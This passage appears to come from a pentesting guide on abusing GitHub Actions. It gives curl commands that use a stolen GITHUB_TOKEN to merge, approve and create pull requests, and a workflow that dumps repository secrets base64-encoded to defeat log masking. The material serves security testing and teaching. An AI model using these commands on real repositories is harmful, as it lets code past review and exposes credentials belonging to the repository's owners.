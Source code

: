 Some interesting things you can do with this token:

```bash
# Merge PR
curl -X PUT \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"commit_title":"commit_title"}'

# Approve a PR
curl -X POST \
    https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
    -H "Accept: application/vnd.github.v3+json" \
    --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
    -d '{"event":"APPROVE"}'

# Create a PR
curl -X POST \
  -H "Accept: application/vnd.github.v3+json" \
  --header "authorization: Bearer $GITHUB_TOKEN" \
    --header 'content-type: application/json' \
  https://api.github.com/repos/<org_name>/<repo_name>/pulls \
  -d '{"head":"<branch_name>","base":"master", "title":"title"}'
```

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.
{% endhint %}

#### List secrets in Github Action output

```yaml
name: list_env
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  List_env:
    runs-on: ubuntu-latest
    steps:
      - name: List Env
        # Need to base64 encode or github will change the secret value for "***"
        run: sh -c 'env | grep "secret_" | base64 -w0'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
